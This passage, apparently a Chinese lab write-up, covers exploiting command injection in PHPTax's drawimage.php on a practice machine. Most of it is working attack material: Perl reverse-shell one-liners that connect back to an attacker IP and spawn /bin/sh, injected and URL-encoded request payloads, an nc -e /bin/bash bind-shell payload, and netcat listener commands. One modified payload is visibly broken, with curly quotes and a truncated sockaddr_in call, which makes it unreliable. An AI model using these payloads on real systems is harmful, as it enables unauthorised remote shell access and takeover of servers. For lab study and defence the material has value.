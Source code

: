 尝试连接，失败，查看[大佬的blog](https://blog.csdn.net/qq_32261191/article/details/118895081)，发现是要通过perl脚本来反弹shell，这一块还是不太会，回头单独学习一下：

```perl
# Server
/phptax/drawimage.php?pfilez=xxx;perl -e 'use Socket;$i="192.168.244.144";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'&pdf=make
# Client
nc -lvp 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217184.png" alt="image-20240129184847428" style="zoom: 50%;" />

发现IP不小心填成靶场IP了，一直连不上。。。。重新来：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217185.png" alt="image-20240129185656208" style="zoom:50%;" />

不知道哪里布置的不对，重新来一下：

```perl
# Server
xxx;perl -e 'use Socket;$i="192.168.244.133";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
# Client 
nc -nlkvp 1234
```

编码完以后，还是搞不到。。。。可能之前啥地方做的不太对，重新梳理一下思路搞一下试试：

① 抓包

```apl
http://192.168.244.144:8080/phptax
```

②修改`User-Agent:Mozilla/4.0 Mozilla4_browser`

③编码`反弹shell`插入`payload`：

```perl
# perl 反弹shell
perl -e 'use Socket;$i="192.168.244.133";$p=2233;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
# payload：
http://localhost/phptax/drawimage.php?pfilez=xxx;%20nc%20-l%20-v%20-p%2023235%20-e%20/bin/bash;&pdf=make
# 修改后
http://192.168.244.144:8080/phptax/drawimage.php?pfilez=xxx;perl -e ‘use Socket;$i=”192.168.244.133"; $p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in( {open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/ bin/sh -i”);};’;&pdf=make
# 编码后
http://192.168.244.144:8080/phptax/drawimage.php?pfilez=xxx;perl+-e+%27use+Socket%3B%24i%3D%22192.168.244.133%22%3B%24p%3D1234%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh+-i%22%29%3B%7D%3B%27;&pdf=make
# 开启监听
nc -lvnp 1234
```

